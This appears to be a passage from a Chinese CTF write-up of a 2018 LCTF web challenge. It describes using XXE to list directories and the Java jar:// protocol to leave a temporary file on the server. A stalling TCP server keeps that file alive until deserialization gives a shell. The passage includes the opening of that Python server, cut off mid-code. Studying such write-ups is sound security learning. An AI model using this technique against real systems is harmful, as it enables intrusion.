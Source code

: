 发现也是可以解析的，虽然不能用`file`协议，但是可以利用外部实体，列目录（出题人是用的netdoc协议，但是本地貌似没有这个协议

![](2018-lctf-web-学习篇\10.png)

## jar协议

由于提示了需要getshell，已经把flag放在了一个比较隐藏的目录中，需要要一些系统命令来查找flag

然后就是一个getshell的思路

> java 的 jar:// 协议，通过这个协议我们能向远程服务器去请求文件（没错是一个远程的文件，这相比于 php 的 phar 只能请求本地文件来说要强大的多），并且在传输过程中会生成一个临时文件在某个临时目录中

可以利用jar协议，请求一个远程文件，并会生成一个tmp文件，但是和php一样，这个tmp文件只在这次请求的周期中存在，并且不可预测。

但是我们这里有一个列目录的功能，我们可以通过XXE来获取到文件名，但是还有个小问题就是，一次请求的时间相当短，难以在这极短的时间内完成文件的move。这里出题人给出了这样一个思路

> 实际上我们可以通过自己写服务器端的方法完成这个功能，因为文件本身就在自己的服务器上，我想让他怎么传不是完全听我的？于是我写了一个简单的 TCP 服务器，这个服务器的特点就是在传输到文件的最后一个字节的时候突然暂停传输，我使用的是 sleep() 方法，这样就延长了时间，而且是任意时间的延长，但是实际上这厉害牵扯出一个问题，就是我们这样做文件实际上是不完整的，所以我们需要精心构造一个 payload 文件，这个文件的特点就是我在最后一个字节的后面又添加了一个垃圾字节，这样实际上在暂停过程中文件已经传输完毕了，只是服务器认为没有成功传输而已

只要自己利用socket伪造一个文件传输器，发送完phar部分的文件之后，就进入阻塞，这也就可以把这次请求的周期极大的放大。就有足够的时间给我们转移文件，进而反序列化getshell

```python
import sys 
import time 
import threading 
import socketserver 
from urllib.parse import quote 
import http.client as httpc 

listen_host = '0.0.0.0' 
listen_port = 23333
jar_file = sys.argv[1]

class JarRequestHandler(socketserver.BaseRequestHandler):  
    def handle(self):
        http_req = b''
        print('New connection:',self.client_address)
        while b'\r\n\r\n' not in http_req:
            try:
                http_req += self.request.recv(4096)
                print('\r\nClient req:\r\n',http_req.decode())
```